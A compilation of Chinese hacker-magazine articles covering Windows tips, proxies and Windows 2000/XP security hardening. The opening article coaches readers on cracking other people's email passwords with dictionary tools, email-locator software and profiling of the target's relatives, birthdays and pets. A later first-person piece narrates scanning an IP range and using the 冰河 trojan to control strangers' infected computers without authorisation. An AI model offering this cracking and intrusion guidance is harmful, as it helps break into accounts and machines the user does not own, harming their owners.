要成功破解密码，很关键的一步是要看你的字典是如何配置的。不管大家用的工具多么先进，如果没有正确的字典，就可能前功尽弃。在这里向大家推荐两款非常实用的字典工具，分别是 Xkey 和 Superdic，它们各有各的特点，相比之下，我比较喜欢 Superdic，因为它生成字典的速度非常快，而且可以根据自己的需要来灵活地定义字典。在设置好了准备生成字典文件的时候，它还会自动检测你存放硬盘的空间，并提醒你是否有足够的空间存放，如图 2 所示。当然，如果注册的话，功能会更多的。


图 1


图 2

这里要提醒大家的是，一般免费邮箱的 POP3 是 @ 后面的部分。但如果是付费的邮箱，那你可要注意了，因为有许多付费邮箱的 POP3 并不是按常规来设置的。如 www.sh163.net 的信箱的 POP3 是 mail.sh163.net，或是 sh163e.sta.net.cn，如果你还是按常规思维来破解的话，恐怕等到胡子长出来了，也没有希望啊，呵呵！

还有，有的付费信箱由于要符合各种客户的要求，它提供的邮箱的 @ 后面部分是根据客户要求制定的，在输入客户名称时会要求输入 E-mail 的全部地址，而不是像大多数免费邮箱那样只要输入 @ 前面的部分就可以的，如上海电信提供的商务企业邮箱信箱就是这样的。所以，大家要在了解了相关信息之后动手，才会有成功的可能。

但是，很多朋友可能会有同样的感慨：就是在所用的工具都非常好的情况下，有时还会碰钉子。因为毕竟是破解嘛，总会有不灵的时候。在这种情况下，我建议如果可能的话一定要了解对方，包括对方的车牌号、手机号、家里电话号码、他本人和他父母、子女、要好的朋友的电话、生日、中文名字及他的宠物的名字等等。破解技术并不是纯技术的东西，它同时也是一门心理学，有时他的密码不一定是某一个单纯的字母或是号码，很有可能是它们的综合品，如几个事物的开头字母或数字的组合等等。

## 三、相关工具

## 破解 EMAIL 地址

如果大家有时看到一个非常想要破解的 EMAIL，却连他住址是什么地方也不知道的话，我建议可以使用 ADVANCED EMAIL LOCATOR 这款软件，它可以在几分钟之内帮你查到相关的信息。

下面我就来介绍这款软件的具体用法。在运行该软件之后，点击 File 下的 Open 选择要探测 E-mail 文件的存放路径，按三角形 Start 按钮即可开始。如图 3 所示。


如果只有一个 Email 要探测的话，则可以选择 Process 下的 Process single email，这样速度会快些。稍等片刻，结果就会显示出来了。结果包括国家名称、所用语言等信息……厉害吧！

它还可以探测邮箱是否是付费的。如图 4 所示。


如果是付费邮箱的话，大家一定要注意结果的最后几行，如图 5 所示。它将显示邮箱服务器地址。是不是很 Cool？


了解这些信息，会对破解工作有相当大的帮助。要知道不同的国家有不同的思维方式，如欧美国家，他们如果用日期作为密码的话，很可能是用 Jan（一月）、Feb（二月）等，所以我不时地提醒大家，心理学在破解过程中是很重要的。这验证了一句古语：“只有知己知彼，才能百战百胜”。

希望大家能从我的文章得到启发，但我从来都不欣赏去做什么损人的事情，只是想互相交流，提高技艺。如果大家有兴趣可以通过 QQ 和我联系：21862655

## 浅析用 GHOST 恢复 NTFS 分区


很多朋友的电脑只装了一个 NT/2000 系统，为求优秀的性能和极佳的安全性，所有分区均采用 NTFS 格式的文件系统，因为 NTFS 格式的文件系统几乎不产生什么碎片，而且能很好地管理用户的访问权限。不用这个格式分区的服务器不是一台合格的服务器。

不知道大家有没有碰到过这样一种情况：由于某些不正确的操作或别的蹊跷原因，使用任何方法也不能让系统启动，就算让系统启动也无法进行任何操作，只有重装。这是大多数朋友的做法，可能也是唯一的做法。但在 NTFS 分区下有点麻烦，要花上近一个小时，不知道 SMARTDRV.EXE 的朋友可能要半天，这显然划不来。有一次偶然朋友用 GHOST 恢复 FAT32 分区的时候，突发奇想：有没有办法让 GHOST 完成 NTFS 分区的恢复工作呢？经过几次试验，终于成功了。（只怕想不到，不怕做不到。）

DOS 不支持 NTFS 格式的分区，所以 DOS 下 NTFS 分区是不可见的，即输入盘符提示不存在，而 GHOST 支持 NTFS 在内的多种格式的分区，只是在此时的环境里只能在 DOS 下运行，怎么才能让 DOS—NTFS—GHOST 拉上关系呢？

现在的硬盘这么大，也不一定全部分区都用 NTFS。以我的一块 80G 的硬盘为例，分 5 个区。详细请看下表：

| 分区 | 容量 | 文件系统 | 用途 |
|---|---|---|---|
| C | 10G | NTFS | 操作系统 |
| D | 30G | NTFS | 安装的各种软件及工具 |
| E | 20G | NTFS | 下载的各种压缩包、虚拟机 |
| F | 15G | NTFS | 游戏、MP3 或 WEB 目录 |
| G | 10G | FAT32 | 各种备份文件、GHOST 及我的文档 |

装好系统后，做好安全配置，装上经常用的短期内不会有新版的软件，如 IE6、各种驱动程序和补丁，如 SP3，优化到最佳状态。这时用光盘和软盘引导启动，就进入了 C 盘。由于 NTFS 分区在 DOS 下不可见，此时的 C 盘即为我们刚才分的 G 盘，进入 GHOST，这时所有分区皆被 GHOST 识别出来，就可以开始制作镜像。因为完整的前提是 NTFS 分区，所以恢复的时候也是 NTFS 分区。当系统崩溃或因为心理作用想重装，也可以在 10 分钟左右把一系列的工作完成。再次用光盘和软盘启动，就可以在 DOS 下恢复了。当然还有其他的方法，就是所有分区均为 NTFS 格式，引导盘里放一个 ghost.exe，只要能让 GHOST 运行，那么压缩和恢复系统也是几分钟的事。

> 注意：GHOST 制作镜像的时候，目标分区是什么格式，恢复的时候就是什么格式。即使是相同格式，恢复过程中也会转换，比如源是 FAT32，目标是 NTFS，那么恢复前先把 C 盘转换成 NTFS 格式，再恢复；反之则把 C 盘在恢复过程中还原成 FAT32 格式。

以上是我的一点小小的技巧，如果哪位高手有更好的方法，请不吝赐教。

# 如何藏好文件？

我们在使用电脑的时候，有很多重要的文件是不希望别人看到的。为了把这些最高机密隐藏起来，我们可谓是费尽心机。单纯地修改隐藏属性往往不能达到预期的效果，秘密轻易就被发现的滋味实在是不太好受。其实，在 Windows 系统中除了更改属性以外，还有几种更加巧妙的隐藏文件和文件夹的方法。好，下面我就一一道给大家听。

## 一、瞒天过海

这个方法主要是针对一些不想让别人看见的文件。我们首先修改想隐藏文件的扩展名，将扩展名修改成系统中没有的类型，比如 *.ffh、*.jjk 等等。由于这些文件没有跟系统中的任何应用程序相链接，所以这些打不开或者是无法运行的程序是不会轻易引人注意的。

不过需要提醒你的是，在修改完成后自己一定要记住哪些是我们修改的，不然一不小心删除了可就麻烦了。

## 二、借题下壳

很多朋友大概都知道，在 Windows 目录中有一个用来专门存储字体的文件夹 FONTS 目录。这个目录中有一个 DESKTOP.INI 文件，如果你找不到，可以用查找功能找到此文件。找到文件后，我们进 DOS 环境，将 FONTS 目录中的 DESKTOP.INI 文件拷贝到任何一个我们想要隐藏的文件夹中。此时我们会发现这个文件夹中的文件突然不见了，而且所有的内容都成为了字体文件，这个目录中的一切都似乎与 C:\Windows\FONTS 中的相同。这时我们的文件就成功隐藏了。

如果想找到隐藏的文件也很容易，只需要用右键点击文件夹，然后选择查找功能，找到 DESKTOP.INI 这个文件，删除即可。

## 三、废物利用

这种方法比较隐蔽一些，它主要是利用 Windows 系统自身的回收站来达到隐藏的目的。当然，我们可不是单纯地将文件或者文件夹拖到回收站中隐藏，而且与上面的方法不同的是，即便你启动显示所有文件功能和查找功能也无法看到我们所隐藏的文件。

首先，我们进入 DOS 状态，然后进入到回收站文件夹，进入后使用 dir /a 这个命令找到 DESKTOP.INI 文件，然后通过 Attrib -s -h -r desktop.ini 这个命令将文件的属性去掉。我们再将此文件复制到任何一个我们想隐藏起来的文件夹中，这时你会发现，你想隐藏的文件夹此刻已经悄悄地变成回收站了，而且不会影响该文件夹作为回收站的使用，即使我们清空回收站也不会影响里面的文件。

当然，你再想查看的时候会麻烦一些。首先进入 DOS 状态，然后进入我们隐藏的文件夹，并把文件夹中的 DESKTOP.INI 文件删除，此时原来的文件又显出庐山真面目了。

## 四、巧立名目

首先，我们进入主分区下的 Windows 目录，然后找到 Local Settings 这个文件夹，再进入到 Temporary Internet Files 文件夹，找到文件夹中的 DESKTOP.INI 文件，再将其拷贝出来。

需要注意的是，这个文件通常是看不到的，但我们可以在 Temporary Internet Files 文件夹中点击右键中的查找功能将这个文件查找到。

拷贝出这个文件后，将其粘贴在我们想要隐藏的文件夹中，此时这个文件夹中的文件就变成 Temporary Internet Files 文件夹中的内容了，而你原有的文件就被隐藏起来了。

当然使用这种方法后，会让你想隐藏的目录变成 IE 的磁盘缓存，会增加一些小小的垃圾文件，但是与此同时你的 IE 的浏览速度也会有一些改善，是不是感觉更快了呢？

如果你不想要这个功能也可以，你只要把它设置为只读属性就可以。如果想要找回你隐藏的文件，只需要继续在你所隐藏的文件夹中点击右键，查找到 DESKTOP.INI 文件，删除即可。

好了，以上就是一些利用 Windows 系统自身的一些功能达到隐藏文件目的的方法。

# 代理服务器的使用


大家在浏览雷傲、动网或者其它一些论坛的时候，有没有发现下面写着“您的 IP 地址是：xxx.xxx.xxx.xxx，来自：某地”？而某些人的 IP 却是来自国外，难道他真的在国外？其实这些人中大多数只是用了代理服务器的缘故。

代理服务器，顾名思义就是专门做路由代理的。假设你现在使用了一台香港的服务器，那么现在的路由就是：本地机器 -> 电信主机 -> 代理服务器“香港” -> 目标主机，那么你在目标主机上留下的 IP 地址就是香港。这时，你再进入论坛看看，就会显示“来自：香港”了。

目前用得最多的代理服务器有两种：HTTP 代理和 SOCKS5 代理。HTTP 代理大多数用于浏览网站时使用，而 SOCKS5 代理大多数用于软件的连接，比如：QQ、IRC 等等软件。

那么，怎样使用代理服务器呢？其实很简单。打开浏览器的“工具”菜单，选择菜单里的“Internet 选项”，如图 1 所示：


在弹出对话框里选择“连接”选项卡，点击“设置”拨号和虚拟专用网络设置，如图 2 所示：


图 2

在弹出的“设置”对话框里大家看见“代理服务器”那一栏了吗？在“对此连接使用代理服务器”前打上勾，然后在下面的地址和端口栏内填入相应的内容。一般推荐把“对于本地地址不使用代理服务器”打上勾，如图 3 所示：


图 3

如果你点击“高级”就会出现图 4 所示内容：默认情况下，对所有协议均使用相同的代理服务器，一般不用改动。但是，如果你想对 HTTP 协议和 FTP 协议使用不同的代理服务器，那么，可以将前面的勾去掉，并在相应的栏内填入相应的代理服务器地址和端口。


图 4

代理服务器的使用基本上就是这样设置的。在这里，我给大家提供一些有用的代理服务器地址，打包保存在光盘中。

## Windows 2000 的系统安全设置

李刚

网络的普及给我们带来了方便，但同时网络安全也就成为人们关注的问题。现在我就给大家介绍如何利用 Windows 2000 自身的功能实现对系统的安全配置。

- **物理安全：** 首先，服务器应该放在安装了监视器的隔离房间内，而且监视器要保留 15 天以上的摄像记录，还有就是键盘之类的东西要上锁，钥匙要放到另一个安全的地方。
- **设置 GUEST 帐号：** 在计算机“用户和用户组”里，GUEST 帐号是相当危险的，最好给 GUEST 帐号加一个密码。打开记事本，写入一个比较复杂的密码，作为 GUEST 帐号的密码拷贝过去。
- **限制不必要的用户数量：** 去掉所有的 Duplicate User 帐号、测试帐号、共享帐号等等。用户组策略里设置相应的权限，并经常检查删除已经不用的帐号，因为这些都是黑客的突破口。据小道消息，国内 NT/2000 如果超过 10 个帐号，就有 2 个弱口令，多可怕呀！
- **创建 2 个管理员帐号：** 表面上看好像和上边的有些矛盾，但实际上是服从规则的。创建一个一般帐号用来收信以及处理一些日常事务，另一个则是拥有 Administrators 权限的帐号，只在需要的时候使用“RunAs”命令来执行一些需要特权才能做的一些工作。
- **把系统 Administrator 帐号改名：** 大家都知道在 Win2000 里 Administrator 帐号是不能停用的，这就为黑客暴力穷举你的密码开了后门，这样的后果可想而知。最有效的方法就是给它改名，不要改为 admin，那样是没有用的，最好改成一般的普通用户名为好。
- **创建一个陷阱帐号：** 创建一个名为 Administrator 的本地帐号，不给他任何权限，并设置很复杂的密码，这样就要费他很长时间去破解。利用这个时间你就可以跟踪他，看看他有什么企图。
- **把共享文件权限从“Everyone”组中改成“授权用户”：** 大家都知道“Everyone”意味着所有人都可以进入你的网络，看你的共享资源，所以要把它改为“授权用户”，包括“打印共享”（默认的是“Everyone”）。
- **使用复杂的密码：** 老生常谈了，这谁都知道的。但是，什么是好的密码呢？就是黑客不能轻易被解出来的密码，要定期地修改一下，这样可以起到很好的安全作用，最好不要用那些“Welcome”、“Iloveyou”之类的，好好想想吧！
- **设置屏幕保护：** 俗话说得好，家贼难防呀！这招是对付内部人员的。
- **用 NTFS 格式分区：** 把服务器的所有分区都改为 NTFS 分区，因为 NTFS 比 FAT、FAT32 文件系统都要安全。我想大家早已经改了吧！
- **启用防毒软件：** 防患于未然，还是弄一个，不，两个，不，三个……反正弄好一些的，最好是正版的，不要贪小失大哟……
- **保护备份文件的安全：** 备份系统文件，这大家都知道，但绝对不能放在同一台服务器上，那跟没有备份一个样，切记……
- 好了，以上是一些初级的安全配置，下期介绍一些中级的！

## Windows 2000 中 EXE 文件关联的解救方法

刘佳

最近，笔者遇到了一个十分棘手的问题，就是进入 Windows 2000 后所有扩展名为 EXE 的文件都不能运行了。现将发现和解决这一问题的过程及体会写成下文，希望在今后碰到类似问题时会对大家有所帮助。

## 一、故障现象

开机进入 Windows 2000，突然弹出了一个对话框，标题为“C:\Program Files\Microsoft Office\OSA9.EXE”，提示信息为“该文件没有关联程序执行该操作。请在控制面板的文件夹选项中创建关联程序”。我十分吃惊，心想，不会所有扩展名为 EXE 的文件都不能运行了吧？果然，双击桌面上所有与 EXE 文件链接的快捷方式图标都不能打开相应程序，这下我可急出了一身冷汗。

## 二、故障分析

一定是某个软件甚至可能是病毒把扩展名为 EXE 的文件关联删除或修改了，因此按照前面对话框的提示从控制面板中执行“文件夹选项”命令，选择“文件类型”标签，在“已注册的文件类型”列表中找不到扩展名 EXE 和它的文件关联。试着按“新建”按钮，在“文件扩展名”后输入“.exe”，按“高级”按钮，系统自动将其文件类型定义为“应用程序”，按“确定”按钮后在“已注册的文件类型”列表中出现了扩展名“EXE”，选择它后按“更改”按钮，系统要求选择要使用的程序，可是到底要选择什么应用程序来打开 EXE 文件呢？

看来这个方法无效，只好按“取消”按钮返回“文件夹选项”对话框。由于以前我从没听说过要为扩展名为“.exe”的文件建立文件关联，所以在“已注册的文件类型”列表中选择“EXE 应用程序”，并按“删除”按钮将它删除。由于所有 EXE 文件都不能执行，所以也无法用注册表编辑器（因为我只能运行 Regedit.exe 或 Regedit32.exe 来打开注册表编辑器）来修改注册表，看来只好重新启动计算机了。

在出现“正在启动 Windows...”时候按 F8 键，出现“Windows 2000 高级选项菜单”，选择其中的“最后一次正确的配置”，进入 Windows 2000 时仍然报错。只好再次重新启动，这次选“安全模式”，虽然没有报错，但仍不能运行 EXE 文件。再试“带命令行提示的安全模式”选项，启动成功后在命令提示符窗口中的命令行输入：

```text
help | more
```

“|”是管道符号，键盘上位于 Backspace 键左边。

在系统显示的信息第一行找到了如下信息：“ASSOC Displays or modifies file extension associations”，大致意思是“ASSOC 显示或修改文件扩展名关联”。心中顿时一喜，别急，按任意键继续翻看，又看到下面信息“FTYPE Displays or modifies file types used in file extension associations.”，大意是“FTYPE 显示或修改用在文件扩展名关联中的文件类型”。原来在命令提示符窗口还隐藏着这两个特殊命令，可以用来设置文件扩展名关联。于是，在命令行分别输入“help assoc”和“help ftype”两个命令获取了它们的使用方法（限于篇幅，不再列出），接着通过下面的设置，终于解决了 EXE 文件不能运行的故障。

## 三、故障解决

先在命令行输入 assoc .exe 来显示 EXE 文件关联，系统显示“没有为扩展名 .exe 找到文件关联”，可见 EXE 文件都不能执行。接着输入：ftype | more 来显示系统中所有的文件类型，其中有一行显示为“exefile="%1" %*”。难道只要将 EXE 文件与“exefile”关联，故障就会解决？

于是命令行输入：

```text
assoc .exe=exefile
```

assoc 与 .exe 之间有一空格。

屏幕显示“.exe=exefile”。现在关闭命令提示符窗口，按 [Ctrl+Alt+Del] 组合键调出“Windows 安全”窗口，按“关机”按钮后选择“重新启动”选项，正常模式启动 Windows 2000 后，所有的 EXE 文件都能正常运行了。

## 四、几点体会

事后，笔者重新在控制面板中执行文件夹选项命令，选择“文件类型”标签，发现在“已注册的文件类型”列表中没有 EXE，也没有 BAT 和 COM 等文件类型，说明用文件夹选项命令无法创建这些类型的文件关联，我们只能在命令提示符窗口中用 ASSOC 和 FTYPE 两个命令来设置。

## Windows XP 的安全性

Cg

微软的 Windows XP 自出炉至今，一直受到广大用户的喜爱。而且 Windows XP 的安全性与 Win 系列产品对比有了翻天覆地的变化。

本文将充分利用系统提供的安全设置对你讲解这方面的一些经验。本文主要针对个人用户使用的 Windows XP Professional，因为目前主要流行这个版本的系统。如果你使用的就是这个版本，希望对你有所帮助。

## 一、系统安装的安全

既然是说 Windows XP 的安全性，那就不能不说 Windows XP 的安装问题。我觉得凡是微软的 Windows 系统在安装的时候都存在着一定的危险（早期的 Windows 2000 尤为突出，现在的 Windows XP 亦不例外），系统在安装的时候我们会遇到以下几个问题：

- 1. 让系统安家到哪里
- 2. 使用何种文件系统

也许很多人都没有注意到这个问题，当你安装完就知道有问题了。很多人原来都安装有 Windows 98 系统，当你想让 Windows XP 与别的系统同时存在时就要注意：不要让 Windows XP 与 Windows 98 在同一个分区下。理由很简单，因为 Windows 98 与 Windows XP 系统的根目录都是 WINDOWS，由于 Windows XP 的安装程序设置了最高的优先权，可写入更新旧文件，会在不提示的情况下覆盖掉这些旧文件。如果你选择了升级安装，那么原来 Windows 默认的路径内的文件就有丢失的危险！

Windows XP 与 Win95/98/ME 所不同的是：它采用了 NTFS 文件系统，提高了数据的安全性。如果你还在为你的数据安全而担心的话，那么建议你使用 NTFS 格式化硬盘。如果你不使用这种文件系统，后边的有些功能你是用不了的。但如果你想在 DOS、Windows 95/98 和 Windows ME 下访问 Windows XP 中的数据，那就别使用 NTFS 了，因为在 DOS、Windows 95/98/ME 下访问不了 NTFS 分区中的数据。道路就在你眼前，用与不用，任选。

### 二、充分发挥 Windows XP 的安全特性

接下来我们该转入正题，详细谈谈如何进行 Windows XP 的安全配置，充分发挥 Windows XP 的安全特性。

### 1、增加一个合法的用户

系统安装下来后就拥有了一个管理员权限的用户 Administrator，如果是公共场所的机器或者你的机器在办公室里与人公用的话，就不必给每个管理员权限，故应创建一个普通用户，方法如下：

以管理员的身份登录你的系统，单击“开始”→“设置”→“控制面板”，打开“控制面板”窗口，双击“用户帐户”图标，接着单击“创建一个新用户”选项，输入用户名，如图 1 所示：


单击“下一步”，为其选择用户类型，应选择“受限”，如图 2 所示，再点击“创建用户”即可完成用户的创建工作。


用户创建好后，由于你是管理员，可以更改普通用户的设置，比如设置/删除访问密码、更改图片、更改用户名/类型等等，也可以将其由普通身份的用户提升为管理员身份的用户。只要在“用户帐户”窗口中单击用户的名称便可打开更改设置的窗口，你可以选择任意的一项来做修改。如图 3 所示：


### 2、使用访问控制，限制用户访问你的数据

有了合法的帐户，用户就可以访问你的数据，这时你应该使用访问控制来限制可以使用文件的人员。注意：要在使用 NTFS 文件系统的驱动器上才有这个功能。我们利用 Windows XP 中的访问控制列表，可以对访问计算机数据或网络数据的人进一步加以限制。

预备工作：在设置文件或文件夹权限之前，我们先来做点预备工作——显示“安全”选项卡，因为我们在往下的操作中要用到这一选项。你不做的话，按照默认情况是不显示这一项的。

- a. 打开“我的电脑”→“工具”→“文件夹选项”。
- b. 在“查看”选项卡上，消除“高级设置”下的“使用简单文件共享（推荐）”项，如图 4 所示，做好了这些工作我们就可做下面的权限设置。
- c. 单击“开始”→“程序”→“附件”，然后单击“Windows 资源管理器”，打开“Windows 资源管理器”。
- d. 查找要设置权限的文件或文件夹，如：笔者要设置权限的文件夹名为“cg”。
- e. 右键单击文件或文件夹，单击“属性”，然后单击“安全”选项卡。请参阅下面的显示“安全”选项卡，点击“确定”即可。
- f. 要为某个未在组或用户名框中出现的组或用户设置权限，请单击“添加”。键入要为其设置权限的组或用户的名称，然后单击“确定”。

**添加新用户或组时，该用户或组将默认具有读取和执行、列出文件夹内容及读取权限。**

如图 5 所示：增加一个 cg 用户。


# 傻瓜黑客

### 3、加密文件或文件夹，保障数据安全

也许你会把对自己有价值的信息存放在计算机上，但如何防止这些数据被窃呢？也许这正是你所担心的。使用 Windows XP 提供的 EFS，有选择地对文件（或文件夹）进行加密。这样，即使有人能盗取文件，他们仍无法对文件进行解密，因此能够有效防止数据被窃。


- a、单击“开始”菜单→“程序”→“附件”，然后单击“Windows 资源管理器”，打开“Windows 资源管理器”。
- b、选择要加密的文件（或文件夹），单击右键，然后选择“属性”。
- c、在“常规”选项卡上，单击“高级”，如图6所示。
- d、选中“加密内容以便保护数据”复选框，如图7所示。


- e、点击“确定”。

这样，我们就为文件或者文件夹加了密。

## 4、使用 Internet 连接防火墙


Windows XP 与以往的 Windows 操作系统不同，微软在其中包含了“Internet 连接防火墙（ICF）”软件。这下，大家就不用费心找专门的防火墙软件了。

- 方法：a、单击“开始”菜单→“设置”→“控制面板”，然后点击“网络和 Internet 连接”，再点击“网络连接”，打开“网络连接”。
- b、首先单击所要保护的拨号、局域网或高速 Internet 连接，（笔者以拨号连接“163”为例），然后在窗口左边的“网络任务”下，单击“更改此连接的设置”，弹出该连接的“属性”对话框。
- c、在“高级”选项卡上的 Internet 连接防火墙下，请选中“通过限制或阻止来自 Internet 的对此计算机的访问来保护我的计算机和网络”复选框，如图8所示。

## 三、几个容易忽视的安全问题

上面使用了 Windows XP 自带的安全性配置，经过以上的配置，你的系统可以算是比较安全的了，但是由于 Windows XP 天生就爱给人钻空子的特点，有些问题你可不能马虎对待。

### 1、使用自动更新功能

Windows XP 跟以往的 Windows 系统不同，加入了“自动更新”功能，能够自动地去微软的网站下载系统补丁。这样可以增强系统的防御能力。但是某些像“如何给 Windows XP 减肥”等文章就是建议将这个功能关掉，如果你关了的话，请按下面的方法启用，以保护系统的安全。方法：右键单击“我的电脑”，选择“属性”，打开“系统属性”对话框，选择“自动更新”标签，在“通知设置”栏内，选中“自动下载更新并且当更新就绪可以安装时通知我”项，如图9所示，再点“确定”即可。


注：笔者的是“D”版的 Windows XP，所以图9还没有完全翻译成中文。

### 2、不允许普通用户关机

因为用户切换功能的原因，别有用心的用户关闭你的计算机会导致已登录的用户的数据丢失！因此设置成不允许普通用户在其工作环境里通过“开始”菜单中的“关闭系统”或在登录之前通过按下 Ctrl+Alt+Del 来关机。设置方法如下：

打开“开始→设置→控制面板”，依次单击“性能和维护→管理工具”，双击“本地安全策略”图标，打开“本地安全设置”窗口。

点击左边目录树中的“本地策略→用户权利指派”，在窗口的右边双击“关闭系统”，在“本地安全设置”标签里选中 Users 组，点“删除”即可，如图10所示。这样，在每个普通用户的“开始”菜单里就不会出现“关闭计算机”这一项。


点击左边目录树中的“本地策略→安全选项”，在窗口的右边双击“关机：允许在未登录前关机”，选择“已停用”，再点“确定”即可。如图11所示，这样，所有的用户就不能在登录之前通过按下 Ctrl+Alt+Del 来关机了。


## 3、不要经常以 Administrator（管理员）身份登录

恐怕这是地球人都知道的事儿了，由于管理员的权限对计算机有着最完全、最彻底的控制能力，整个系统在这种状态下的防御能力是最弱的，要是不小心中了木马，那别人就可以完全控制你的机器了。因此，平时请用 Users 组或 Power Users 组成员的身份登录你的系统，除非紧急关头，否则不要以管理员身份登录，这是经验之谈！

### 4、经常整理磁盘碎片

系统使用过久，经过大量的删除、拷贝文件，产生大量的磁盘碎片，会严重影响硬盘的读写性能，NTFS 文件系统亦是如此，所以别忘了经常整理磁盘碎片哦！

以上便是笔者在使用 Windows XP 的过程中琢磨摸索出来的一点点门路，希望能对广大的读者有所帮助。

# 我的第一次

清风实验

就在去年，海信电器公司为推销自己的防火墙，悬赏50万元向全球黑客叫板，这件事不知大家还记得不？当时可是闹得沸沸扬扬，一时间网络上大家都在谈论此事。也就是在那时，我生平的第一次黑客行动“诞生”了！

攻击目标当然是海信了。使用的工具嘛，就是当时比较流行的黑客软件“冰河2000”（木马），看到这儿，那些黑客高手们肯定就不屑到了极点——用冰河去入侵海信，简直是开玩笑！对，我知道不可能，但我的主要目的定想利用这个合法的机会，来试试这个传说中很厉害的黑客软件而已，再说，万一哪个“好心”的海信员工用冰河留下了一个“后门”，那就……发了！

这一天，早早地吃过晚饭，来到机房，不知怎的，心里非常兴奋，手心里都是汗！虽说是海信请人去入侵，但心里还是有些异样的感觉。

深吸一口气，镇定了一下情绪，开始行动！北京时间21：00，我打开电脑，启动“冰河2000”黑客软件，在搜索栏中输入海信电器提供的 IP 地址，但是没想到试了无数次，根本就连不上，不由得很沮丧，随手又在搜索地址栏输入 202.101.8.*（搜索范围：202.101.8.1～202.101.8.254），按下“开始搜索”。进度条慢慢地向100%靠拢，可是搜到的 IP 都提示为“ERROR”。我对自己说再试试，说不定能扫到一个呢！50%～60%～90%～100%，突然在一个 IP 地址处显示为“OK”，并自动加入到冰河的“文件管理器”，到搜索结束时共有三个地址被找到，我心头不由一阵狂喜，哈哈，我的冰河2000还真行……

任意点击其中一个地址，系统提示正在连接，5、6秒后提示连接成功，没想到我的第一次黑客行动竟然如此顺利。切换到“命令控制台”，啊！“冰河2000”的功能竟然如此强大，可以对远程机器的文件进行浏览、查找、删除、更名……还可以查看系统口令、键盘记录、注册表读写、窗口控制，甚至强行关机等等。

我先用鼠标点击“捕捉屏幕”，不一会儿那家伙的屏幕就出现在我的眼前，他正在浏览搜狐网站，我特别注意看了一下任务栏的右下角，有计划任务、超级解霸、3721、小喇叭、电源管理、输入法和时间，却没有任何防火墙的图标，看来是个很“菜”的家伙。

干点什么呢？不如先锁定他的鼠标吧！于是发出锁定鼠标命令，又在对方的屏幕上右击，选择自动刷新。果然，他的鼠标停在屏幕中央一动不动，我想他肯定觉得这很怪吧？想想还是算了，不要搞破坏，毕竟这不是我的初衷。还是去给他发条信息警告一下吧，输入信息：“你被黑了！”点击“发送”；屏幕显示发送成功。过了一会儿我又发出了鼠标解锁命令，这回竟然提示说不能连接，看来这家伙算是挺乖的，将线断掉了。幸亏他碰上我这个好人，嘿嘿！否则后果可就不堪设想（如果给他种上木马或者格式化硬盘，那他就惨了）。

再换一个地址连接，这次倒是挺怪的，老是提示口令错误，难道是对方机器设置了口令？不管他，先切换到“命令控制台”，选择“捕获屏幕”，没想到还是提示口令错误。再发出文件浏览命令，在文件名栏键入：C:\，虽然系统仍提示口令错误，但却能显示该机 C 盘文件，我看了一下，这台机器的系统安装在 C:\Windows 目录下，C:\ 下还有 sthvcd55、RichWin97、Lxhome、Adobe Acrobat Reader 4.0 等，这时想起来一个传说，说冰河有个 BUG，不用连接口令就可以列出受害者的文件目录，看来真的是如此。是否继续搜索想了半天，觉得还是结束的好，因为我的目的已经达到了。

就这样我生平中第一次黑客行动就此结束了。感触还是颇深的——一次最简单的黑客行为竟然如此容易就得手了！看来，黑客离我们真的一点也不遥远——像我这样的伪黑客应该还有许多，许多！由此看来，大家还是有必要加强网络安全意识，丰富保护自己的手段。当心，黑客就在你身边！

# 让网络资源更加共享

blue

网络的产生，其根本原因是为了实现资源共享。而网络发展到今天，技术水平虽然比从前有了很大的提高，但资源共享却没有真实地体现出来。几乎所有的站点对于自己的技术和软、硬件资源都有所保留，其实这也是无可厚非的。大家都要生活嘛！收一点费也是很正常的事。但对于我这样穷光蛋来说，想得到好处又不想花钱，就只好动动脑筋了。

现代流行的手机 DIY 是一项比较高科技的活动。大到屏幕换色、英文的电话本改中文电话本，甚至手机病毒，小到换铃声、待机图片等，这些都能体现出个性风采。下面我就来说说我从网上下载手机铃声和图片的故事。

现在大型的站点几乎都有手机铃声和图片下载，但这些服务都不是免费。我用的是西门子手机，西门子手机有一个特点就是它的屏幕比较大，所以待机的图片也很大，因而下载这类图片的价格也是比较贵的。为了让自己的手机变得更漂亮，铃声更动听，很多人并不在乎花几元钱。

我没有多余的钱给那些已经很富有的人（要是有钱捐给希望工程更有意义！），所以我要研究一下，找到一种免费的方法。下载这些铃声或图片的流程大概是这样的：


图1

我把手机和电脑连接好，用那张驱动光盘安装相应的软件，在“我的电脑”里映射一个手机的驱动器，名为：Mobile。双击打开它，出现了很多的文件夹，找到存放图片的文件夹，打开。里面有几张手机自带的 BMP 格式的图片，大小都是 101×64 像素，黑白两色。我在看这些图片时，觉得有些熟悉，似曾相识。对了，那些下载图片的站点上的手机图片都是这样显示的，可能连大小都是一样的。于是我赶紧打开一个下载图片的页面，找到西门子待机图片的页面，挨个找预览的，在右键点后，再选“图片另存为（S）...”把这张图片保存到我的计算机里，如图1所示。

大家一定很清楚，这一步是绝对免费的吗。现在我已经免费地将一张图片下载并保存到自己的计算机上了。接下来的一步就是将这个图片保存到自己的手机上面。


> 相关提示

在这个过程中我们总要有所收获才行。如果从这个途径下手研究，好像不太现实。这里其中不仅仅有网络方面的知识，还要掌握一些通讯方面的知识才行。网络、计算机我还行，通讯方面的知识太专业了，我又没学过，还是算了吧！另外，自从我步入黑客这个领域，一直牢记着一条游戏规则：不要动政府机关和电信方面的东西，否则会惹来杀身之祸！手机的通讯要靠电信，短信的传送也要靠它，所以这条路走不通。

我们都知道，真正的 HACKER 一般都是电脑对电脑的，客户端对服务器的。因此，我们要达到免费下载目的还要从自己的电脑上下手。

我的手机可以和电脑连接，从而成为电脑的一个终端并相互进行通讯。我只要把我要的铃声和图片先免费地弄到我的电脑上，下面的事就十分简单了，就是把这几个文件复制到我的手机存储器或驱动器里去。

我的手机是西门子 6688，它原装就包括一条用于手机和电脑相连的数据线和驱动光盘，这使得我的手机和电脑的通讯变得很简单。没有这些东西也没有关系，很多品牌的手机数据线在电脑市场上都有得买，也不是很贵的，二、四十元一条。


> 相关提示

好的，复制这张图片文件到手机中存放图片的文件夹里，再用手机试试，结果和我想的一样，手机里出现了一个新的待机画面图片，而且可以使用。这一切好像太简单了，至少比我想象的要简单很多。

